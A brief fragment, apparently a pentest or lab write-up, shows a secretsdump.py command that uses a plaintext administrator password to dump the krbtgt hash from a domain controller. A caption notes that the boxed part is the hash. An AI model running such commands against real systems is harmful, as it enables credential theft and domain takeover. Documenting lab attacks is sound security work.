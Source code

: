 ![image](images/BJJacqMPT.png)

secretsdump.py administrator:'Pa$$w0rd'@192.168.177.19 -just-dc-user krbtgt
![image](images/HkqcicMDT.png)
框起來的是hash
